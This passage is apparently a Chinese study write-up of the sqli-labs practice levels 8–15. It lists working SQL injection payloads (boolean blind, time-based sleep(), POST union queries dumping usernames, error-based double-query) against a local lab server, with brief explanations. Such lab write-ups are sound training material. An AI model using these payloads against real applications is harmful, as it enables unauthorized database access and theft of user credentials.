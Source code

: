 `http://192.168.145.129:8888/Less-8/?id=1' and if('e'=substr((select database()),2,1),1,2)=1 -- `

预期是布尔型盲注，实现的方式很多：

- `http://192.168.145.129:8888/Less-8/?id=1' and ascii(substr((select database()),1,1))=116 --  `

说起来能够判断条件的地方都有盲注的可能，前提是能根据页面的返回判断payload的执行情况。

### lv.9

`http://192.168.145.129:8888/Less-9/?id=1' and (select sleep(3)) and (select database()) ='security' -- `

基于时间的盲注，一般思路有两个，即使用sleep（）函数来使系统延迟返回，或者是通过大量计算主动延长系统的返回时间，即使用`benchmark(100,sha(1))`。

### lv.10

`http://192.168.145.129:8888/Less-10/?id=1" and sleep(2) and 'security'=(select database()) -- `

同上，只不过是换成了需要闭合双引号。

### lv.11

`POST: uname=a' union select 1,group_concat(id,username) from users -- &passwd= `

POST注入，换个方式而已，当确保你能成功POST出去的时候就和GET没区别了。

### lv.12

`POST: uname=a&passwd=a") union select 1,group_concat(id,username) from users -- `

换成双引号，然后注入的地方改成了密码，多试就行了。耐心啊朋友！

> 另外，并不是注入点换到了密码，都能注入只是你又菜又粗心因为一个简单的括号闭合就没测出来。我说咋还能同一个语句只有后半句能注入呢。

### lv.13

`POST: uname=admin') and 'security'=(select database()) -- &passwd=a`

没啥变化，变成了基于报错的注入了，找个条件判断的地方就随便注，顺道复习一下之前的双查询注入：

`POST: uname=admin') union select count(*),concat(floor(rand(0)*2),' ',(select 123123)) as a from users group by a -- &passwd=`

### lv.14

`POST: uname=a" or 1=1 and (sleep(0.1)) union select 1,2 -- &passwd=d  `

变成了双引号闭合，其他似乎没变化？（确实没变化）之前lv13的都可以直接用，不管是报错还是基于双查询注入的，不知道预期解之前，复习一下延时注入吧。

> 看起来双查询注入是报错注入的一种优化，将后者只能根据报错用payload逐位判断数据变成了可以一行一行判断。

### lv.15

`POST: a' or 1=1 and not (select sleep(0.1)) -- `

又变回单引号了，但是没了报错，所以第一反应就是延时注入，这里应该注意，sleep（）函数返回0而不是1 。

另外，Firefox的注入插件不怎么支持单双引号，POST不出去；自己用requests库写的脚本sleep函数参数不能太高。
